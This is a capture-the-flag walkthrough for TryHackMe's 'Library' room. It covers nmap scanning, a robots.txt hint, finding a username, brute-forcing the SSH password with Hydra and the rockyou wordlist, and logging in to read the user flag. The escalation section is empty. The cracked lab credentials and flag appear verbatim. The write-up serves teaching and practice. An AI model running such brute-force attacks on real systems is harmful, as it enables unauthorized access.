 # Library

![Library CTF Logo](./Assets/library-ctf-logo.jpg "Library CTF Logo")

## Summary

[Library](https://tryhackme.com/room/bsidesgtlibrary "Library CTF On TryHackMe") is a begginer friendly CTF hosted by [TryHackMe](https://tryhackme.com/ "TryHackMe Webiste") and created by [Stuxnet](https://twitter.com/__stux "StuxNet Twitter Profile").

This CTF requires **basic** knowledge of:

* Basic Linux commands such as ```ping```, ```ls```, ```cd```, ```cat```, ```sudo```, and ```rm```.

* Port scanning with tools like ```NMAP```.

* ```OSINT``` (Open Source Intelligence).

* Brute forcing SSH login with tools like ```Hydra```.

* Creating/editing files in Linux with command line text editors like ```Nano```.

---

## Contents

* [Getting Started](#getting-started "Jump To Getting Started")

* [Port Scanning](#port-scanning "Jump To Port Scanning")

* [Robots File](#robots-file "Jump To Robots File")

* [OSINT](#osint "Jump To OSINT")

* [Hydra](#hydra "Jump To HYDRA")

* [Initial Access - First Flag](#initial-access "Jump To Initial Access")

* [Vertical Escalation - Root Flag](#vertical-escalation "Jump To Vertical Escalation")

---

## Getting Started

As always we start off by ensuring the target machine is up and running by pinging the target IP address.

```
$ ping <IP_Address>

PING <IP_Address> (<IP_Address>) 56(84) bytes of data.
64 bytes from <IP_Address>: icmp_seq=1 ttl=61 time=161 ms
64 bytes from <IP_Address>: icmp_seq=2 ttl=61 time=160 ms
64 bytes from <IP_Address>: icmp_seq=3 ttl=61 time=159 ms
64 bytes from <IP_Address>: icmp_seq=4 ttl=61 time=160 ms

--- <IP_Address> ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3005ms
rtt min/avg/max/mdev = 158.818/160.136/161.498/0.950 ms
```

[Back To Top](#library "Jump To Top")

---

## Port Scanning

Once we've verified the machines connectivity, we can move on to a port scan using ```nmap```. We'll use the ```-A``` flag to specify an aggressive scan, this will return open ports, services, as well as other useful information.

```
$ nmap -A <IP_Address>

Nmap scan report for <IP_Address>
Host is up (0.16s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to  Blog - Library Machine
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

After running the port scan we'll see two open ports.

* ```PORT 22``` - SSH (Secure Shell)

* ```PORT 80``` - HTTP (HyperText Transfer Protocol)

We can also see that the website at ```PORT 80``` has a [robots.txt](https://en.wikipedia.org/wiki/Robots.txt "Robots Text File WikiPedia Page") file.

```
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
```

Naturally, our next step should be visiting the webpage and reading that file. 

[Back To Top](#library "Jump To Top")

---

## Robots File

Before we visit the homepage for the website we should read the contents of the [robots.txt](https://en.wikipedia.org/wiki/Robots.txt "Robots Text File WikiPedia Page") file we found during the ```nmap``` scan.

Navigating to ```http://<IP_Address>/robots.txt``` we'll see a reference to the [rockyou](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Leaked-Databases/rockyou.txt.tar.gz "RockYou Password File On GitHub") wordlist, a hint that we'll need to brute force a service with this password list.

```
User-agent: rockyou
Disallow: /
```

Now we should start looking through the website for other useful information.

[Back To Top](#library "Jump To Top")

---

## OSINT

If we go through the website we won't find any login forms or other directories. But we do find an admins username through a blog post on the main page.

![Blog Authors Username](./Assets/blog-author-username.png "Blog Authors Username")

We have a username (```meliodas```) and we know the password can be found in the ```rockyou``` wordlist, that should be enough to bruteforce the ```SSH``` login.

[Back To Top](#library "Jump To Top")

---

## Hydra

The only piece of the credentials we have is the username, so we'll have to bruteforce the password with ```Hydra```.

The syntax for bruteforcing ```SSH``` with a known username and unknown password is ```hydra -l <username> -P <wordlist> <IP_Address> ssh```.

```
$ hydra -l meliodas -P /path/to/word/list <IP_Address> ssh

[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking ssh://<IP_Address>:22/
[STATUS] 177.00 tries/min, 177 tries in 00:01h, 14344222 to do in 1350:41h, 16 active
[22][ssh] host: <IP_Address>   login: meliodas   password: iloveyou1
1 of 1 target successfully completed, 1 valid password found
```

After a couple minutes we'll get a hit.

```
[22][ssh] host: <IP_Address>   login: meliodas   password: iloveyou1
```

Credentials - ```meliodas:iloveyou1```

[Back To Top](#library "Jump To Top")

---

## Initial Access

Finally, we can log in and look for the first flag.

```
$ ssh meliodas@<IP_Address>

meliodas@<IP_Address>'s password: iloveyou1
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-159-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

meliodas@ubuntu:~$
```

After logging in, we'll be dumped into the home directory of ```meliodas```, and if we list all contents of the current directory we'll see the ```user.txt``` file.

```
meliodas@ubuntu:~$ ls -la

total 40
drwxr-xr-x 4 meliodas meliodas 4096 Aug 24  2019 .
drwxr-xr-x 3 root     root     4096 Aug 23  2019 ..
-rw-r--r-- 1 root     root      353 Aug 23  2019 bak.py
-rw------- 1 root     root       44 Aug 23  2019 .bash_history
-rw-r--r-- 1 meliodas meliodas  220 Aug 23  2019 .bash_logout
-rw-r--r-- 1 meliodas meliodas 3771 Aug 23  2019 .bashrc
drwx------ 2 meliodas meliodas 4096 Aug 23  2019 .cache
drwxrwxr-x 2 meliodas meliodas 4096 Aug 23  2019 .nano
-rw-r--r-- 1 meliodas meliodas  655 Aug 23  2019 .profile
-rw-r--r-- 1 meliodas meliodas    0 Aug 23  2019 .sudo_as_admin_successful
-rw-rw-r-- 1 meliodas meliodas   33 Aug 23  2019 user.txt
```

If we ```cat``` the ```user.txt``` file we'll find our first flag.

```
meliodas@ubuntu:~$ cat user.txt

6d488cbb3f111d135722c33cb635f4ec
```

[Back To Top](#library "Jump To Top")

---

## Vertical Escalation



[Back To Top](#library "Jump To Top")
